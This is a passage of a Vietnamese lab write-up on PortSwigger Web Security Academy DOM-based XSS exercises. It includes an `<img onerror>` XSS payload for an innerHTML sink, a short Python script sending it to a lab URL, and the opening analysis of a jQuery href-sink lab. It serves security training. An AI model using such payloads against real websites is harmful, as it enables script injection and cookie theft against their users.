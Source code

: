 ### Khai thác

- mình sẽ sử dụng payload là: `<img src=1 onerror=alert('XSS')>` vì innerHTML không hỗ trợ thẻ script, khi đó đầy đủ câu lệnh sẽ là:

```javascript
document.getElementById('searchMessage').innerHTML = <img src=1 onerror=alert('XSS')>
```

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a39005903920e0681b066f00003004a.web-security-academy.net'

response = requests.get(
    url + "/?search=<img src=1 onerror=alert('XSS')>",
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/Skh2XHU9p.png)

## 5. Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

link: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink

### Đề bài

![image](https://hackmd.io/_uploads/BkFr4SI56.png)

### Phân tích

- Lab này có chứa lỗ hổng DOM-based XSS ở trang submit feedback. Nó sử dụng chức năng lựa chọn `$` của thư viện jQuery để tìm một thẻ `<a>` và đổi thuộc tính href sử dụng dữ liệu từ location.search. Để solve lab này thì mình cần đưa link "back" hiện ra `document.cookie`

Tại form submit feedback, trang web có chứa chức năng Back để quay lại trang trước.

![image](https://hackmd.io/_uploads/S1vHrr8qT.png)

![image](https://hackmd.io/_uploads/BJh8BB8qT.png)
